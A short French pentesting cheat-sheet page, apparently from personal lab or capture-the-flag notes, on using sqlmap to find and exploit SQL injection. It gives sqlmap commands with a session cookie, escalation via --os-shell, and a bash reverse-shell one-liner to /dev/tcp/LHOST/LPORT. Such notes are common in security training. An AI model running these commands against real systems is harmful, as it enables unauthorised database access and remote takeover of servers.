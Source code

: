 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](sql_injection.md)</sub>
#SQL Map


**Utilisation :** Détecter et exploiter des failles de type [injection SQL](sql_injection.md) en injectant du code dans le serveur attaqué.

**CMD :** sqlmap -u **URL**?**PARAM**=any+query' --cookie="**COOKIE**"

**Arguments :**
- **-exemple :** exemple

**Exemple :** sqlmap -u 'ht<span>tp://10.10.10.10/test.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44sefesfsqzzqde4ro8u1

**Help :**
- cmd : détails => *ex **ARGS***

**Procédure :**
- si le retour :  *GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]* => c'est bon
- relancer en ajoutant *--os-sql* ou autre. ex :  *sqlmap -u 'http:/<span>/10.10.10.10/test.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44sefesfsqzzqde4ro8u1" --os-shell*
- la console n'est pas stable donc procéder à un [reverse shell](reverse_shell.md). ex : *bash -c "bash -i >& /dev/tcp/**LHOST**/**LPORT** 0>&1"*